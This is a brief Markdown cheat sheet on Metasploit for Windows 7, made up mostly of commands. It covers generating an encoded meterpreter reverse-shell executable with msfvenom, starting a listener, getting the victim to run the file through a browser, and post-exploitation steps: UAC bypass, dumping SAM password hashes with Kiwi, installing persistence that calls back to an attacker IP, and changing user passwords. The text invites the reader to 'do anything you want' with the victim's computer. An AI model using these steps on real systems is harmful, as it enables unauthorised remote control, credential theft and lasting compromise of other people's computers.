 # Metasploit Basics #
OS Windows 7
- - - - 

#### 1. Create the .exe with Venom ####

    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
    msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}


#### 2. On metasploit, select the payload ####

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
Configure the settings
<code>show options</code> and <code>exploit</code>

#### 3. ITs necesary to execute the file on the victim's computer ####
Use <code>python -m SimpleHTTPServer 80</code> to have an easy acces to your file wihtout the need of download it.
Run your file through any browser on victim's computer using your IP and the connection should be established.


Then do anything you want with the computer's victim, remember alway use:
>   <code>show options</code> to configure the settings.  

>   <code>background</code> to set the current session on background.

>   <code>sessions</code> list all the active sessions.

>   <code>exploit</code> or <code>run</code> execute the exploit



#### Get system credentials #### 
    use exploit/windows/local/bypassuac
#### Use Kiwi to get all the hashes ####
    load kiwi
    lsa_dump_sam
#### Make a permantent connection with the victim ####
    run persistence -U -i 5 -p 4444 -r 192.168.0.3
    run persistence -U -i {Intervale time} -p {port} -r {lhost IP}
#### Change user password ####
    use windows/manage/change_password
